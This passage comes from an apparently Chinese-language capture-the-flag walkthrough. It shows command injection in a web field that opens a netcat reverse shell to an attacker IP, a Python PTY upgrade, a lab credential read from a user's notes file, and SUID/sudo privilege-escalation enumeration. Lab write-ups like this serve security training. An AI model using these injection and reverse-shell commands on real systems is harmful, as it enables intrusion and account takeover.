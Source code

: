 这个位置修改命令执行反弹shell  

![upload successful](https://lnng.top/images/pasted-243.png)

**upload successful**

```
baidu.com | nc -e /bin/bash 192.168.124.139 4444
```

反弹一下交互shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upload successful](https://lnng.top/images/pasted-245.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E6%8F%90%E6%9D%83-2 "提权")提权

在家目录发现提示的ssh登录

```
/home/mark/stuff
```

发现登录账号密码

```
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```

ssh登录  

![upload successful](https://lnng.top/images/pasted-246.png)

**upload successful**

  
尝试suid提取,发现没有可利用的

```
find / -perm -u=s -type f 2>/dev/null
```

查看当前用户可执行操作

```
sudo -l                                                                                    
```
